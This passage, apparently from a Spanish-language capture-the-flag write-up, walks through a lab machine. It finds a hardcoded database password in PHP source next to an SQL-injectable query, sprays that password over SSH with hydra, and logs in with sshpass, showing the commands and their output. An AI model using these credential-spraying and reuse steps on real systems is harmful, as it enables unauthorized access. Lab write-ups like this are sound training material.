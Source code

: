 Y en este archivo vemos que se incluye un archivo `db_connect.php` que probablemente tenga credenciales de base de datos.

```php
include('db_connect.php');
session_start();
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".mysql_real_escape_string($_GET['id']));
```

`db_connect.php`
```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

Y con `hydra` podemos hacer password spraying a todos los usuarios..
```shell
$ hydra -L users.txt -p 'Co.met06aci.dly53ro.per' 10.129.227.208 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-12 13:25:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://10.129.227.208:22/
[22][ssh] host: 10.129.227.208   login: gbyolo   password: Co.met06aci.dly53ro.per
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-12 13:25:20
```

Y podemos acceder por SSH como el usuario `gbyolo`
```shell
$ sshpass -p 'Co.met06aci.dly53ro.per' ssh gbyolo@10.129.227.208
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 12 11:26:43 CEST 2024

  System load:           0.03
  Usage of /:            75.2% of 4.67GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.129.227.208
  IPv6 address for eth0: dead:beef::250:56ff:fe94:8329


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
gbyolo@faculty:~$ id
```